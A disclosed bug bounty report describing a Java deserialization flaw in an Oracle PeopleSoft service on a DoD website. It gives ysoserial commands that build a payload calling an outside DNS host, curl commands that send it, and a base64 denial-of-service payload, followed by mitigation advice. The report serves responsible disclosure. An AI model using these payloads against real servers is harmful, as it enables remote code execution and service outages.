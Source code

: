 # Remote Code Execution (RCE) in a DoD website

## Report Details
- **Report ID**: 329399
- **URL**: https://hackerone.com/reports/329399
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-03-24T02:59:09.459Z
- **Disclosed**: 2019-10-08T18:50:55.421Z

## Reporter
- **Username**: joaomatosf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
SUMMARY:
====================

The DoD **`https://███/psc/EXPROD/`** Web System uses the Oracle PeopleSoft platform which is vulnerable to Remote Code Execution (RCE) and Denial of Service Attacks (DoS) over a Java Object Deserialization (CWE-502) in the “monitor” service. Thus an attacker can generate and send malicious java objects of special types to your system and achieve arbitrary effects (such as RCE os DoS) during their deserialization (the objects are deserialized by readObject() method without any type of validation). This is related to CVE-2017-10366 [1].

PROOF OF CONCEPT
====================

For PoC I sent a special serialized java object in order to force the vulnerable server to perform a DNS Lookup for a domain controlled by me (dod.jexboss.info). In this way, if the code is executed successfully by the DoD server I will receive a DNS query from DoD and see it in the logs of my BIND daemon (the vulnerable DoD server will perform a local DNS query for dod.jexboss.info and the local DNS will try to query the authoritative nameserver for the jexboss.info domain (ns1.jexboss.info), which is mine).

For more details about this payload used, see [2].

**Attached is a video detailing the PoC.**

**Generating the payload:** for generate the payload I used the tool ysoserial.
```
$ git clone https://github.com/frohoff/ysoserial.git
$ cd ysoserial
$ mvn clean package –DskipTests
$ cd target
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://dod.jexboss.info > payload
```

**Sending the payload to a vulnerable server:**
`curl https://█████/psc/EXPROD/ --data-binary`@payload`-k`

After sending the payload to the DoD server, the code was successfully executed and I received the DNS query on my BIND server, as can be seen in the log record below.
	
**BIND logs:**
```
23-Mar-2018 18:29:54.523 queries: info: client ███#5691: query: dod.jexboss.info IN A -ED (10.0.1.202)
```

**Denial Of Service (DoS)**

This vulnerability also allows denial of service attacks, but I can not perform this test because it puts the availability of your service at risk. If you want to validate this, use the following PoC:

**Generating payload for Denial of Service (DoS)[3]:**
```
echo -n "rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cH////d1cQB+AAB////3dXEAfgAAf///93VxAH4AAH////d1cQB+AAB////3dXEAfgAAf///93VxAH4AAH////d1cQB+AAB////3" | base64 -d > payload_dos
```

**Sending:**
`curl https://██████████/psc/EXPROD/ --data-binary`@payload_dos`-k`

This will make your service stop immediately and show the following error in the logs:
```Exception in thread "Thread-2" java.lang.OutOfMemoryError: Java heap space```

MITIGATION
====================

The best way to mitigate deserialization vulnerabilities is by not deserializing data received from users. In this particular case, any requests from the internet to the path **/monitor** should be rejected/blocked! 
Also, it is important to note that updating libraries used by attackers as Gadgets (such as commonsCollections) is not enough to protect against deserialization attacks, since new gadgets are discovered and published frequently. So, blocking the monitor service is best suited for this case!

REFERENCES:
====================
[1] - CVE-2017-10366. Link: https://nvd.nist.gov/vuln/detail/CVE-2017-10366
[2] - Triggering a DNS lookup using Java Deserialization. Link: https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
[3] - Java Deserialization DoS – payloads. Link: http://topolik-at-work.blogspot.com.br/2016/04/java-deserialization-dos-payloads.html

Best Regards, 
João Filho Matos Figueiredo, @joaomatosf

## Impact

This vulnerability allows:
1) Remote Code Execution (**RCE**)
2) Denial of Service (DoS)

## Attachments
No attachments
